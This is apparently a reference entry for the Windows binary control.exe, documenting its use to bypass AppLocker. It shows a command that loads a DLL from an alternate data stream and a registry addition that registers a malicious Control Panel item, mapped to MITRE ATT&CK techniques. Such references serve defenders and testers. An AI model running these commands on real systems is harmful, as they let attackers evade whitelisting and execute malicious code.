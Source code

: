 ## Control.exe

* Functions: Execute, Read ADS

```
control.exe c:\windows\tasks\file.txt:evil.dll
```

Acknowledgements:
* Jimmy - @bohops

Code sample:
* 

Resources:
* https://pentestlab.blog/2017/05/24/applocker-bypass-control-panel/
* https://www.contextis.com/resources/blog/applocker-bypass-registry-key-manipulation/
* https://bohops.com/2018/01/23/loading-alternate-data-stream-ads-dll-cpl-binaries-to-bypass-applocker/
* https://twitter.com/bohops/status/955659561008017409

Full path:
```
C:\Windows\system32\control.exe    
C:\Windows\sysWOW64\control.exe     
```

Notes:
Add registry in HKCU\Software\Microsoft\Windows\currentversion\controlpanel\CPLS to manipulate.
```
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Control Panel\Cpls"
/v EvilCPL.cpl /t REG_SZ /d "C:\Folder\EvilCPL.cpl"
```

 MITRE ATT&CK:
* [Control Panel Items](https://attack.mitre.org/wiki/Technique/T1196)
* [NTFS File Attributes](https://attack.mitre.org/wiki/Technique/T1096)
